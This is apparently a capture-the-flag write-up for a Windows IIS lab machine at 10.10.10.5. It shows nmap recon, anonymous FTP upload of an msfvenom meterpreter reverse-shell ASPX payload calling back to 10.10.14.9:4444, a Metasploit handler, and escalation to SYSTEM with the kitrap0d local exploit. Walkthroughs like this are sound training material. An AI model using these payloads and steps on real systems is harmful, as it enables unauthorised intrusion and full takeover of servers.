 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)

**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive

Port 21 allows for anonymous FTP Login

![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded

![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)

FTP Upload
<pre>binary</pre>
Binary is more reliable than ASCII

![binary](https://user-images.githubusercontent.com/66635295/176751701-f44d6a90-93e3-4937-ab12-c4d92f0137e0.png)

<pre>put ex.aspx</pre>
Uploads the file to 10.10.10.5/ex.aspx

![ex](https://user-images.githubusercontent.com/66635295/176751874-9fdd0d59-5380-40a9-b910-e72ebe2600ac.png)

**PRIVILEGE ESCALATION**
---
**Meterpreter session**
<pre>getuid</pre>
Accessing the webpage provides a session to the application server  

![succ](https://user-images.githubusercontent.com/66635295/176753250-c97e1bdb-8d68-4274-8b61-4232a3343fca.png)

**Exploit suggestor**
<pre>backround</pre>
<pre>use post/multi/recon/local_exploit_suggester</pre>
<pre>set session 1</pre>
<pre>run</pre>
![sugg](https://user-images.githubusercontent.com/66635295/176753936-0f153344-9e85-4c34-a1d5-0e5b7cf8a6f9.png)

**Exploit list**
13 possible exploits found
![exploit](https://user-images.githubusercontent.com/66635295/176754492-af9345d4-e291-4828-aba1-9ff9cbf18696.png)

Exploit
<pre>use exploit windows/local/ms10_015_kitrap0d</pre>
<pre>set options</pre>
<pre>run</pre>
Creates a new session with SYSTEM privileges
![shelld](https://user-images.githubusercontent.com/66635295/176754686-000b763f-7ae4-43ab-8bcd-01692a5a11cc.png)
![swag](https://user-images.githubusercontent.com/66635295/176754750-d8f63b76-aed9-4088-b88e-ea164f55d797.png)

**Root shell**
<pre>shell</pre>
![shellll](https://user-images.githubusercontent.com/66635295/176754848-78819fce-4e69-40b0-9bb1-0dd217271dd8.png)

Flags for user and root on desktop
![flags](https://user-images.githubusercontent.com/66635295/176754936-eedc3dbf-0a4a-4f8a-8e92-c9c973ec486d.png)
